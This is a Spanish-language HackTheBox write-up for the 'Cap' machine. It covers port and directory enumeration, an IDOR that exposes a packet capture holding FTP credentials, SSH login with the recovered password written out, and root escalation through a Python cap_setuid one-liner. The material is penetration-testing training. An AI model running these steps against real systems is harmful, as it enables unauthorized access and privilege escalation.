 Maquina: Cap

Autor:

Dificultad: Facil

![Screenshot 2024-11-10 111524](https://github.com/user-attachments/assets/cf2ef35d-5faa-437e-a508-947c1639c15d)

Verificamos que la máquina está activa haciendo un ping.

ping -c 1 10.129.140.249 –R

![Screenshot 2024-11-10 111659](https://github.com/user-attachments/assets/950133a3-a0db-4605-8f9c-a3e283f306a5)

Vemos que el ping nos responde con el ttl de la máquina de 63, maquina Linux, que en realidad serían 64 pero HTB por la conexión con un nodo intermediario, lo reduce en 1 unidad.

Enumeración: Usamos Nmap para escanear y descubrir posibles vulnerabilidades. Aquí es donde la curiosidad se convierte en acción.

Sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.140.249 -oG Escaneo

![Screenshot 2024-11-10 111922](https://github.com/user-attachments/assets/be35e9a9-7f69-4385-850d-ba1d154a603f)

Una vez comprobado que la máquina está activa, vamos a lanzar un nmap con permisos de root para ver qué puertos están abiertos y exportar el resultado en un fichero llamado Escaneo.
Después el escaneo me devuelve que los puertos 21 ftp, 22 ssh y 80 http están abiertos.

Sabiendo que estos puertos están abiertos, lo que hacemos a continuación es lanzar un comando completo que recoja todo:
sudo nmap -sCV -p- --open --min-rate 5000 -n -vvv -Pn 10.129.140.249 -oG Scan 

![Screenshot 2024-11-10 112556](https://github.com/user-attachments/assets/1874e781-9e82-4a55-b36e-c2aa689057d8)

Explotación:

El puerto 80 es un panel admin

usamos gobuster

gobuster dir -u http://10.129.140.249/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 50

![Screenshot 2024-11-10 120056](https://github.com/user-attachments/assets/5f75b5dc-2652-4e9b-8630-e165d7dfac8a)

enumeramos /data con wfuzz

wfuzz -u http://10.129.140.249/data/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --hc 302,404

![Screenshot 2024-11-10 121157](https://github.com/user-attachments/assets/f8dbbe06-9035-42b5-a2a4-5c2f1fc888c8)

Ataque IDOR (Insecure Direct Object Reference)
Parece que la opción «Security Snapshot» de la izquierda 
(si haces hovering la ruta es /capture ) va cambiando y 
generando nuevas urls con la opción de poder Descargar esa información.

Probamos con incluir un valor directamente de cero en la ruta para ver la respuesta, y efectivamente nos devuelve información con la opción de descargarnos el informe, por lo que nos lo descargamos y lo analizamos para ver qué contiene.
Parece que modificando el valor de la ruta puedemos acceder a información que de forma natural de funcionamiento de la página no tendrías, por lo que estamos ante un posible ataque IDOR.

http://10.129.140.249/data/0

![Screenshot 2024-11-10 121242](https://github.com/user-attachments/assets/13e548c4-98e7-4ed4-b5da-e6b364e8226f)

nos bajamos el documento .pcap

![Screenshot 2024-11-10 121257](https://github.com/user-attachments/assets/3d9532f2-ab32-4fc6-8b41-ec6678b1f170)

Lo abrimos con wireshark y vemos que hay muchos ftp requests 

aplicamos el filtro para ver solo ftp requests y encontramos un username y un password

![Screenshot 2024-11-10 122357](https://github.com/user-attachments/assets/72d8d056-bce5-4838-879e-a63f31924ce4)

intentamos entrar por ftp

![Screenshot 2024-11-10 122533](https://github.com/user-attachments/assets/04c5f6d0-de58-4e2f-b284-3964d1232374)

dir

vemos que nathan tiene hdirectorio home, eso significa que podemos hacer loging por ssh tambien

ssh nathan@10.129.140.249
Buck3tH4TF0RM3!

![Screenshot 2024-11-10 122707](https://github.com/user-attachments/assets/f4794c4b-12e9-4852-ad31-e2f60ad95829)

ls

cat user.txt

![Screenshot 2024-11-10 122734](https://github.com/user-attachments/assets/32d8d458-c39f-4099-b985-69416f055078)

Sin embargo este usuario no tiene permisos de root en la máquina.

Escalada de privilegios: 
ESCALADA DE PRIVILEGIOS CON CAPABILITES
En este punto, vemos los permisos id y de sudoers por si ese usuario pudiera tener permisos especiales de ejecución como root, y parece que no.

Id

![Screenshot 2024-11-10 122804](https://github.com/user-attachments/assets/424ea4c3-8813-4bac-9452-5f2ecb161c51)

Teniendo eso en cuento vamos a ver si hay algún binario que nos permite abusar del privilegio de root.
Con esta línea vamos a buscar archivos con el bit SUID (Set User ID) activado. El valor 4000 representa este permiso especial en octal. Los archivos con este permiso se ejecutan con los privilegios de su propietario (root), incluso si quien los ejecuta es un usuario diferente.

find / -perm -4000 -user root 2>/dev/null

![Screenshot 2024-11-10 123605](https://github.com/user-attachments/assets/0a9c0f4c-1e1b-46be-bb9f-70d4f1fea9de)

Hay muchos pero son los comunes por lo que parece que no podemos abusar de ninguno.
Teniendo en cuenta que la máquina se llama «Cap» es posible que mediante la opción de Linux Capabilities podamos encontrarlas y vemos si un archivo vulnerable o mal configurado tiene el bit SUID activo y es propiedad de root, y así cualquier usuario como Nathan puede ejecutarlo con privilegios de root.

getcap -r / 2>/dev/null

![Screenshot 2024-11-10 123619](https://github.com/user-attachments/assets/e16d5af2-11fa-433b-9ef7-192343e926ba)

Si vemos la línea de python 3.8 , este archivo tiene las siguientes capabilities:
cap_net_bind_service: Permite que el archivo pueda asociarse a puertos de red por debajo del 1024, que normalmente requieren permisos de root.
cap_setuid: Permite que el archivo cambie su UID efectivo (identificador de usuario). Esto es importante porque podría usarse para cambiar de usuario, lo que en ciertos casos podría permitir la escalación de privilegios.
Posible riesgo: La combinación de estas capabilities significa que cualquier script o proceso que use python3.8 podría, en teoría, manipular puertos de red y cambiar su UID.

Linux Capabilities es un sistema más granular que permite asignar permisos específicos a un proceso en lugar de usar el sistema SUID, que otorga todos los permisos de root. Capabilities divide los permisos de root en unidades más pequeñas (capabilities), como CAP_NET_ADMIN para administración de red o CAP_SYS_MODULE para cargar módulos del kernel. Esto ayuda a mejorar la seguridad al evitar la necesidad de usar SUID en muchos casos.

Si ahora vamos a GTFObins en Python y Capabilities , podemos ver el CAP_SETUID que podemos aplicar para comprometer la máquina.

Ajustas la petición teniendo en cuenta lo anterior, y ya tendríamos permisos de root y podríamos acceder a la flag de root:

python3.8 -c 'import os; os.setuid(0); os.system("bash")’

![Screenshot 2024-11-10 123803](https://github.com/user-attachments/assets/9ab61011-d93b-4393-b5a8-4f1a850ba260)

whoami

Cd /root
ls
Cat root.txt

![Screenshot 2024-11-10 124030](https://github.com/user-attachments/assets/42b5f893-9da5-46d5-86d3-6b3367fbe5ad)

¡Pwned!













